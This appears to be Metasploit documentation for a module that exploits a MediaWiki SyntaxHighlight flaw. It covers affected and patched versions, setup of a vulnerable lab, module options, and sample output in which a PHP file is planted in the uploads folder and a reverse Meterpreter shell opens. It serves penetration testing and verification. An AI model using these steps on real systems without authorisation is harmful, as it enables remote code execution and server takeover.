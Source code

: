 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x. A fix for this issue is included in MediaWiki version 1.28.2 and version 1.27.3.

## Vulnerable Setup

To set up the vulnerable environment, please do:

  1. Download [MediaWiki (such as 1.28.0)](https://releases.wikimedia.org/mediawiki/1.28/mediawiki-1.28.0.tar.gz)
  2. Install MediaWiki on a LAMP setup (ideally)
  3. Install composer ```curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer```
  4. Do: ```cd /var/www/html/mediawiki/extensions/SyntaxHighlight_GeSHi```
  5. Do: ```composer update```
  6. Open your LocalSettings.php with a text editor, and add this line at the end of the file: ```wfLoadExtension( 'SyntaxHighlight_GeSHi' );```

  At this point, you are ready to test this setup. 

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST [ip target site]`
  3. `set TARGETURI [MediaWiki path]`
  4. `set UPLOADPATH [writable path in web root]`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

  **TARGETURI**

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

  **UPLOADPATH**

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

  **CLEANUP**

  Set this to true (the default) to unlink the PHP file created by this exploit module. The cleanup code will only be called when the exploit is successful.

  **USERNAME**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

  **PASSWORD**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Sample Output

### The Check command

The module comes with a check command that allows you to check whether the target might be
vulnerable or not, for example:

```
msf exploit(mediawiki_syntaxhighlight) > check
[*] 192.168.146.203:80 The target appears to be vulnerable.
```

### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```
